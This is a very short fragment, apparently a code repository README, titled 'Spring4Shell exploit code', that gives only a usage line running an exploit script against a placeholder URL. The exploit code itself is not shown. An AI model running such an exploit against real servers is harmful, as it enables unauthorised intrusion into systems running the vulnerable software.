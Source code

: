 ## Spring4Shell exploit code
### exploit command
    python3 exploit.py --url http://endpoint:ports/
